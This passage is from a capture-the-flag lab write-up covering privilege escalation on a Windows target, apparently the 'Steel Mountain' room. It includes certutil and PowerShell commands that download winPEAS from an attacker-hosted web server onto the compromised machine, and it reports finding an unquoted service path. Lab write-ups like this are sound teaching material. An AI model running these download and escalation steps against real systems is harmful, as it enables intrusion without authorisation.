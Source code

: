 ### 3.2 Privilege Escalation:<a name="32-privilege-escalation"></a>

Now that we have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root.

To enumerate this machine, we will use a script called winPEAS to evaluate the Windows machine and determine any abnormalities.

I figured that `C:\Users\bill\Desktop` would be writable so I used a simple command to download the winPEAS.exe file that is also being hosted through the web server being hosted on the attacking machine.

Downloading a file can either be done per `certutil.exe -urlcache -split -f http://IP/filename.exe` or the following powershell command.

```
cd C:\Users\bill\Desktop
C:\Users\bill\Desktop>powershell -c "Invoke-WebRequest -Outfile winPEAS.exe http://10.11.48.183/winPEASany_ofs.exe
powershell -c "Invoke-WebRequest -Outfile winPEAS.exe http://10.11.48.183/winPEASany_ofs.exe

C:\Users\bill\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\bill\Desktop

05/23/2022  10:47 AM    <DIR>          .
05/23/2022  10:47 AM    <DIR>          ..
09/27/2019  05:42 AM                70 user.txt
05/23/2022  10:47 AM         1,799,168 winPEAS.exe
```

Now that we have winPEAS installed, let's run that by firing off winPEAS.exe in the command prompt.  It may take a couple of minutes, but once it's done we can start inspecting the results.  You should find this (I have included additional credentials that are not required for the privilege escalation part, yet are interesting intellectual information leaked still):

>**winPEAS** results notating an Unquoted Service Path vulnerability.

![image](images/steel-mountain-12.png)

Additionally we can use a long wmic command to do the same, which isn't covered in the room walkthrough. You can find this command in the below image and caption.
